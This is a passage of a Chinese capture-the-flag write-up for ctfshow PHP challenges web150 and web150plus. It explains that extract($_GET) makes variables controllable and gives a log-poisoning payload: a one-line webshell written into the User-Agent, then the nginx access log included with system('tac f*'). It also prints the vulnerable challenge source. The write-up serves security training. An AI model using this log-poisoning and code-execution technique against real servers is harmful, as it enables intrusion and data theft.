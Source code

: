 ```php
```

> 这里有**extract($_GET);**
>
> 所以isVIP是可控的

payload

先往index.php里UA写入一句话

```
GET:isVIP=1
POST:ctf=/var/log/nginx/access.log&1=system('tac f*');
```

## web150plus(__autoload加载未定义的类)

```php
<?php
include("flag.php");
error_reporting(0);
highlight_file(__FILE__);

class CTFSHOW{
    private $username;
    private $password;
    private $vip;
    private $secret;

    function __construct(){
        $this->vip = 0;
        $this->secret = $flag;
    }

    function __destruct(){
        echo $this->secret;
    }

    public function isVIP(){
        return $this->vip?TRUE:FALSE;
        }
    }

    function __autoload($class){
        if(isset($class)){
            $class();
    }
}

#过滤字符
$key = $_SERVER['QUERY_STRING'];
if(preg_match('/\_| |\[|\]|\?/', $key)){
    die("error");
}
$ctf = $_POST['ctf'];
extract($_GET);
if(class_exists($__CTFSHOW__)){
    echo "class is exists!";
}

if($isVIP && strrpos($ctf, ":")===FALSE && strrpos($ctf,"log")===FALSE){
    include($ctf);
}
```
